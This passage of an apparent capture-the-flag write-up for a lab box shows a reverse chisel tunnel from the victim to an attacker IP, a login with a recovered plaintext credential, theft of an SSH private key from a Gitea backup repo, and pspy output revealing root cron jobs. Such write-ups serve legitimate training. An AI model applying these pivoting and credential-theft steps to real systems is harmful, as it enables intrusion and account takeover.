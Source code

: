 
after some messing around with meterpreter portforwards, they were unbearably slow, so I used chisel

transport the binary with meterpreter upload and then


```shell
# using meterpreter
meterpreter> upload /opt/chisel/chisel_1.7.6_linux_amd64 .


# on victim

> ./chisel_1.7.6_linux_386 client 10.10.14.241:13897 R:172.17.0.1:3000

# on attacker machine

> ./chisel_1.7.6_linux_amd64 server -v -p 13897 --reverse
 

```  

This will allow me to access port 3000 on localhost, which would connect to 172.17.0.1:3000

Navigating to it we see a webapp called Gitea, it appears to be a service for managing Git repositories I haven't encountered before. Remembering the credentials we found earlier,

dev01:Soulless_Developer#2022

I try to log in and I am granted access. here we see a repository which is a backup of dev01's home directory. Luckily for us, this includes their RSA private key

we can download it and use it to authenticate against SSH on the box

http://localhost:3000/dev01/home-backup/raw/branch/main/.ssh/id_rsa

now login as dev01
```shell
ssh dev01@<IP> -i ./id_rsa
```

This grants us user.txt
## Privilege Escalation
I performed my usual checklist of enumeration and nothing stuck out immediately. So, I decided to look at process activity with `pspy`. We see some git commands executed by root on frequent intevals

```shell

...SNIP

2022/05/23 23:55:01 CMD: UID=0 PID=22703 | /bin/bash /usr/local/bin/git-sync
2022/05/23 23:55:01 CMD: UID=0 PID=22702 | /bin/sh -c /usr/local/bin/git-sync
2022/05/23 23:55:01 CMD: UID=0 PID=22701 | /usr/sbin/CRON -f
2022/05/23 23:55:01 CMD: UID=0 PID=22704 | git status --porcelain
2022/05/23 23:55:01 CMD: UID=0 PID=22706 | git add .
2022/05/23 23:55:01 CMD: UID=0 PID=22707 | git commit -m Backup for 2022-05-23
2022/05/23 23:55:01 CMD: UID=0 PID=22708 | git push origin main
2022/05/23 23:55:01 CMD: UID=0 PID=22709 | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git

...SNIP

```
